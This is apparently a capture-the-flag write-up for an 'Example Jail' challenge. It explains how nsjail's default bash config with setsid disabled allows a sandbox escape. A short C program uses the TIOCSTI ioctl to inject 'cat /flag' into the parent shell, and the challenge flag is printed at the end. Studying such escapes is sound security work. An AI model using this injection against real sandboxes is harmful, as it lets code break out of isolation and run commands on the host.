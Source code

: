 # Example Jail (misc)
The challenge is a nsjail escape on the default configuration used in the bash example. The server will run a given binary simulating an actual tty shell.

The server builds the most recent release nsjail from git and runs the following commands to set up the config file:
```dockerfile
RUN cd nsjail && make && mv ./nsjail /bin && mv configs/bash-with-fake-geteuid.cfg /nsjail.cfg && cd .. && rm -rf nsjail
RUN sed -i 's/"\/bin\/bash"/"\/solve"/' /nsjail.cfg
```

On the server, there is a runner that loads the solver's program and executes the following to run the binary:
```py
p = subprocess.Popen(["socat", "-", "exec:\"bash -i\",pty,stderr,setsid,sigint,sane"], stdin=subprocess.PIPE, stdout=subprocess.PIPE) # spawns bash in a PTY
p.stdin.write(b"nsjail --config /nsjail.cfg &\n") # runs nsjail process in background of bash

time.sleep(5)

print(p.communicate(timeout=3)[0].decode()) # and prints the output

```

The escape is due to the fact that the example has `setsid: false`. This means you can use the TIOCSTI ioctl to send characters to the parent shell outside of the nsjail! The setup in the challenge makes this exploitable by running the command with `&`. The escape may still be possible otherwise using control signals and buffering, but I did not attempt to get it working.

```c
#include <sys/ioctl.h>
#include <string.h>

int main() {
    const char* c = "cat /flag\n";
    for(unsigned int i = 0; i < strlen(c); i++) {
        ioctl(0, TIOCSTI, &c[i]); // writes char to PTY which is read by bash
    }
    return 0;
}

```

This challenge was pretty hard to set up. It's nsjail inside bash inside socat inside nsjail...

```
irisctf{ioctl_is_forever}
```

